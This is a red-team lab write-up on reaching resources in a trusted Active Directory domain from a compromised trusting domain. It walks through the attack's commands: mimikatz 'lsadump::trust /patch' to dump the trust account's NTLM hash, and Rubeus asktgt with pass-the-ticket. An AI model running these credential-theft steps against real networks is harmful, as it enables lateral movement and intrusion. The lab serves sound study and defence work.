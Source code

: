 ```yaml
---
layout: post
title: "abusing trust accountusd accessing resources on a trusted domain from a trusting domain"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /active-directory-kerberos-abuse/
---
```


# Abusing Trust Account$: Accessing Resources on a Trusted Domain from a Trusting Domain

This is a quick lab to familiarize with a technique that allows accessing resources on a trusted domain from a fully compromised (Domain admin privileges achieved) trusting domain, by recovering the trusting `account$` (that's present on the trusted domain) password hash.

This lab is based on the great research here [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted), go check it out for more details and detection / prevention ideas.

## Overview

The environment for this lab is as follows:

| Resource               | Type              |                                                                                      |
| ---------------------- | ----------------- | ------------------------------------------------------------------------------------ |
| first-dc.first.local   | Domain Controller | Domain controller in the first.local domain                                          |
| second-dc.second.local | Domain Controller | Domain controller in the second.local domain                                         |
| first.local            | Domain            | This domain does not trust second.local domain, but second.local trusts this domain. |
| second.local           | Domain            | This domain trusts first.local domain, but first.local does not trust this domain.   |

In short, there is a one way trust relationship between `first.local` and `second.local`, where `first.local` does not trust `second.local`, but `second.local` trusts `first.local`. Or simply put in other words, it's possible to access resources from `first.local` on `second.local`, but not the other way around.

The technique in this lab, however, shows that it's still possible to access resources from `second.local` on `first.local` domain if `second.local` domain is compromised and domain admin privileges are obtained.&#x20;

This technique is possible, because once a trust relationship between domains is established, a trust account for the trusting domain is created in the trusted domain and it's possible to compromise that account's password hash, which enables an attacker to authenticate to the trusted domain with the trust account.

In our lab, considering that `first.local` is a trusted domain trusted by the trusting domain `second.local`, the trust account `first.local\second$` (user account `second$` in the domain `first.local`) will be created.&#x20;

`first.local\second$` is the trust account we want to and CAN compromise from the `second.local domain`, assuming we have domain admin privileges there.

Visually, this looks like something like this:

![Technique / attack diagram based on the one seen in https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](<../../.gitbook/assets/image (1088).png>)

## Checks

Let's check some of the things we touched on in the overview.&#x20;

Confirm the trust relationships between domains:

```
# on first-dc.first.local
get-adtrust -filter *
```

![](<../../.gitbook/assets/image (1092).png>)

```
# on second-dc.second.local
get-adtrust -filter *
```

![](<../../.gitbook/assets/image (1089).png>)

Confirm that there's a trust account `second$` on `first.local` domain:

```
# on first-dc.first.local
get-aduser 'second$'
```

![](<../../.gitbook/assets/image (1094).png>)

Confirm that we can enumerate resources on the trusting domain `second.local` from `first.local`:

```
# from first-dc.first.local
get-aduser -Filter * -Server second.local -Properties samaccountname,serviceprincipalnames | ? {$_.ServicePrincipalNames} | ft
```

![](<../../.gitbook/assets/image (1085).png>)

Confirm that we cannot (just yet, but this is soon to change) enumerate resources on the trusted domain `first.local` from the trusting domain :

```
# on second-dc.second.local
get-aduser -Filter * -Server first.local -Properties samaccountname,serviceprincipalnames | ? {$_.ServicePrincipalNames} | ft
```

![](<../../.gitbook/assets/image (1091).png>)

## Compromising Trust Account first.local\second$

As mentioned earlier, the main crux of the technique is that we're able to compromise the trust account `first.local\second$` if we have domain admin privileges on `second.local`.

To compromise the `first.local\second$` and reveal its password hash, we can use mimikatz like so:

```
# on second-dc.second.local
mimikatz.exe "lsadump::trust /patch" "exit"
```

![](<../../.gitbook/assets/image (1093).png>)

Note the RC4 hash in `[out] first.local` -> `second.local` line - this is the NTLM hash for `first.local\second$` trust account, capture it.

## Requesting TGT for first.local\second$

Once we have the NTLM hash for `first.local\second$`, we can request its TGT from `first.local`:

```
#on second-dc.second.local
Rubeus.exe asktgt /user:second$ /domain:first.local /rc4:24b07e26ca7affb4ac061f6920cb57ec /nowrap /ptt
```

![](<../../.gitbook/assets/image (1095).png>)

## Accessing Resources on First.local from Second.local

At this point on `second-dc.second.local`, we have a TGT for `first.local\second$` committed to memory and we can now start enumerating resources on `first.local` - and this concludes the technique, showing that it's possible to access resources on a trusted domain (as a low privileged user), given the trusting domain is compromised:

```
Get-ADUser roast.user -Server first.local -Properties * | select samaccountname, serviceprincipalnames
```

![](<../../.gitbook/assets/image (1090).png>)

## References

{% embed url="https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted" %}
@spotheplanet
